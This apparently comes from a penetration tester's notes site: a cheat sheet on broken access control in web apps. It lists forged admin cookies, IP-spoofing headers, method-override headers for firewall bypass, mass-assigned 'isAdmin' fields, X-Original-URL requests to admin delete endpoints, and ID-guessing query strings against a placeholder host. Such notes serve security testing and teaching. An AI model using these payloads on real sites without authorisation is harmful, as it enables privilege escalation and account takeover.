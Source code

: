```yaml
---
title: Broken Access Control
desc: The attacking methodology of broken access control in web applications.
tags: [Access, Burp, Control, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change Header Values

1. **Cookie**

    You may be able to get access to the login-required pages.

    ```
    Cookie: admin=true
    Cookie: isAdmin=true
    Cookie: access=1
    Cookie: access=true
    ```

2. **IP Spoofing**

    ```
    Cluster-Client-IP: 127.0.0.1
    Forwarded-For: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Original-URL: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-ProxyUser-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Remote-IP: 127.0.0.1

    Host: 127.0.0.1
    ```

<br />

## 2. Change Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## 3. Change POST Params

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## 4. Add X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## 5. Change Query Parameters

```sh
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```
